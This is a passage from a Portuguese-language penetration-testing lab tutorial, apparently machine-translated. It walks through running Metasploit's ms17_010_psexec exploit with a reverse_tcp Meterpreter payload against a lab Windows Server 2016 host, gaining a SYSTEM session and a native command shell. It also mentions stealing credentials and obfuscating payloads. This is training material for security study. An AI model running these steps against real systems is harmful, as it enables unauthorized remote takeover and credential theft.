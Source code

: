 ```shell-session

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Desta vez, mantivemos as coisas simples e apenas usamos um `windows/meterpreter/reverse_tcp` carga útil. Você pode alterar isso conforme desejar para um tipo de shell diferente ou ofuscar mais seu ataque, conforme mostrado nas seções anteriores de cargas úteis. Com nossas opções definidas, vamos tentar e ver se obtemos uma shell.

4. Execute o ataque e receba um retorno de chamada.

#### Execute nosso ataque

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Sucesso! Conseguimos nossa façanha e ganhamos uma sessão de concha. A `SYSTEM` nível de shell nisso. Como visto nos módulos anteriores de MSF, agora que temos uma sessão aberta através do Meterpreter, somos apresentados a `meterpreter >` prompt. A partir daqui, podemos utilizar o Meterpreter para executar outros comandos para coletar informações do sistema, roubar credenciais do usuário ou usar outro módulo de pós-exploração contra o host. Se você deseja interagir diretamente com o host, também pode participar de uma sessão interativa no shell no host do Meterpreter.

5. Identifique o Shell nativo.

#### Identifique nosso shell

```shell-session
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
